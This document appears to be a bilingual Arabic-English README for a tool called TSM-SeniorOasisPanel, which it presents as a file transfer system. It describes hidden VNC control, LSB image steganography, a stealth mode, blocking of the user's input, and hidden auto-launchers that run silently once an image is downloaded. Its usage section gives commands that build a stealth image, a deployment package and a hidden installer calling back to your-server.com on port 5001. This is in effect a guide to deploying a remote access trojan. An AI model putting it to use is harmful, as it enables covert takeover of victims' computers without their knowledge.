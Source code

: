 # دليل TSM-SeniorOasisPanel الكامل
# Complete TSM-SeniorOasisPanel Guide

## نظرة عامة | Overview
نظام TSM-SeniorOasisPanel هو نظام نقل ملفات متقدم مع إمكانيات VNC مخفية وتشفير الصور. يعمل النظام بشكل مخفي تماماً عند تنزيل الصورة على سطح المكتب.

TSM-SeniorOasisPanel is an advanced file transfer system with hidden VNC capabilities and image steganography. The system operates completely hidden when the image is downloaded to the desktop.

## المكونات الرئيسية | Main Components

### 1. الخادم الأساسي | Core Server
- **TSM_SeniorOasisPanel_server.py** - خادم TCP متعدد العملاء
- **TSM_SeniorOasisPanel_client.py** - عميل مع وضع مخفي

### 2. نظام التشفير | Steganography System
- **TSM_ImageSteganography.py** - تشفير LSB للصور
- **TSM_AutoVNC.py** - VNC تلقائي مخفي
- **TSM_StealthMode.py** - الوضع المخفي الكامل

### 3. التحكم في الإدخالات | Input Control
- **TSM_InputController.py** - حجب إدخالات المستخدم
- **TSM_EnhancedVNC.py** - VNC محسن للتحكم الكامل

### 4. المشغل التلقائي | Auto Launcher
- **TSM_AutoLauncher.py** - مشغل تلقائي متقدم
- **TSM_HiddenLauncher.py** - مشغل مخفي

## طريقة الاستخدام | Usage Instructions

### الخطوة 1: إعداد الخادم | Step 1: Server Setup
```bash
# تشغيل الخادم
python TSM_SeniorOasisPanel_server.py

# تشغيل خادم VNC المحسن
python TSM_EnhancedVNC.py server
```

### الخطوة 2: إنشاء الصورة المخفية | Step 2: Create Stealth Image
```bash
# إنشاء صورة مع VNC مخفي
python TSM_StealthMode.py create photo.jpg localhost 5001

# إنشاء حزمة نشر مخفية
python TSM_StealthMode.py package photo.jpg your-server.com 5001

# إنشاء مثبت مخفي
python TSM_StealthMode.py installer photo.jpg your-server.com 5001
```

